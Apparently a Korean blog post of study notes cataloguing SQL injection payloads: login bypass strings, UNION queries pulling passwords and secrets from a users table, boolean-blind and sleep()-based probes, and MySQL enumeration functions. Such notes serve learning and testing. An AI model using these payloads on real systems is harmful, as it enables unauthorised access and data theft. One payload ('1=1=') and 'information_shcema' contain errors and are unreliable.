 ```yaml
---
title: SQL Injection 기법
date: 2020-11-15 19:49:08
tags:
- SQL Injection
category:
- Web
---
```


## SQL Injection

### 인증 우회

- 인증 쿼리 질의문
`Select * from members where id='' and pass=''`

- `' or 1=1 #`
- `' or 'x'='x`
- `" or "x"="x`
- `') or ('x'='x`
- `") or ("x"="x`

### Error Based

- `0' union select all 1,concat(id,login,password),3,4,concat(email,secret),6,7 from users#`
- `0' union select all 1,2,3,4,5 #` 

UNION SELECT ALL 다음 컬럼 값은 앞선 질의문의 쿼리문의 개수와 같아야한다. 

### Blind 

- `' or 1=1 and length(database())=5#`
- `' or 1=1= and substring(database(),1,1)='b'#`
- `' or 1=1 and ascii(substring(database(),1,1))=98#`

'참'과 '거짓'의 결과만으로 결과를 얻어낸다.

### Time Based

- `' or 1=1 and sleep(5)#`

sleep()함수를 이용해서 시간을 비교해서 원하는 결과를 얻는 방법, 하지만 시간도 많이 걸리고 제일 마지막에 시도하는 방법이다.


## SQL Injection Cheat Sheet

https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

## My SQL Injection에 기본적으로 알아야 할 것들

- @@version
- information_schema.tables
  - table_name
- information_shcema.columns
  - column_name
- database()
- length()
- substring(문자열,시작,개수)
- ascii()
- limit 시작,개수 : 컬럼을 하나씩 가져오기위해 사용


